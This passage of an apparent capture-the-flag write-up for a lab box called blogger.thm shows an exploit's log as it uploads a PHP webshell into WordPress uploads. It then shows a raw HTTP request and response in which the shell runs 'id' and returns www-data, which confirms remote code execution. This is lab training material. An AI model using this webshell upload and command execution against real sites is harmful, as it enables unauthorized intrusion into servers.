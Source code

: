 ```bash

[+] Generating random name for Webshell...
[!] Generated webshell name: aulpmqpvdgqvyyc

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/11/aulpmqpvdgqvyyc-1668451299.9271.php&quot; 

> whoami

[x] Failed to execute PHP code...
```

> Exploit seems to have failed.
{: .prompt-danger }

However, if we check the location where the exploit reports it uploaded a shell and check for a simple code execution, everything seems to work fine.

### request
```http
GET /assets/fonts/blog/wp-content/uploads/2022/11/aulpmqpvdgqvyyc-1668451299.9271.php?cmd=id HTTP/1.1
Host: blogger.thm
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wpdiscuz_hide_bubble_hint=1
Connection: close
```

### response
```http
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 18:49:18 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 68
Connection: close
Content-Type: text/html; charset=UTF-8

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Yes! Code execution.
{: .prompt-info }

---